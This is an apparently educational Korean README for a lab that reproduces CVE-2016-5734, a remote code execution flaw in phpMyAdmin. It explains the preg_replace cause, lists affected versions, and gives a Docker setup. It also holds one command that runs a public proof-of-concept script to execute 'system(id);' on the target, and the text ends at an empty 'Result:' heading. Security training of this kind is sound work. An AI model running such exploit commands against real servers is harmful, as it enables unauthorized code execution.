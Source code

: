 # CVE-2016-5734 | PhpMyAdmin 4.0.x—4.6.2 Remote Code Execution(원격 코드 실행) 취약점

> 화이트햇 스쿨 3기 (6반) - [임건형 (@lghz)](https://github.com/lghz) 

[중국어 버전(Chinese version)](README.zh-cn.md)

<br/>

PhpMyAdmin은 PHP로 작성된 무료 소프트웨어 도구로, 웹을 통해 MySQL 관리를 처리하기 위해 만들어졌습니다. 취약점은 preg_replace 함수에 있으며, 사용자가 제출한 정보가 첫 번째 매개변수에 삽입될 수 있기 때문입니다.

PHP 5.4.7 이전 버전에서는 preg_replace의 첫 번째 매개변수가 \0으로 잘려나갈 수 있었고, 검색 패턴이 \e로 변경될 수 있었습니다. 이로 인해 원격 코드 실행 취약점이 발생할 수 있습니다.

영향을 받는 버전:

4.0.x 버전 중 4.0.10.16 이전 버전

4.4.x 버전 중 4.4.15.7 이전 버전

4.6.x 버전 중 4.6.3 이전 버전 (사실 이 버전은 PHP 5.5 이상을 요구하므로, 이 취약점은 재현되지 않습니다)

<br/>

## 설정

다음 명령어를 실행하여 PHP 5.3 + Apache + phpMyAdmin 4.4.15.6 환경을 시작하세요:

```
docker compose up -d 
```

시작한 후 http://your-ip:8080에 접속하면 phpMyAdmin 로그인 페이지가 나타납니다.
root:root 계정으로 로그인하세요.

</br>

## 익스플로잇

이 취약점을 이용하려면 로그인과 데이터 쓰기 권한이 필요합니다.

우리는 이 POC(https://www.exploit-db.com/exploits/40185/)를 사용하여 취약점을 재현합니다.

```
./cve-2016-5734.py -c 'system(id);' -u root -p root -d test http://your-ip:8080/
```

Result:
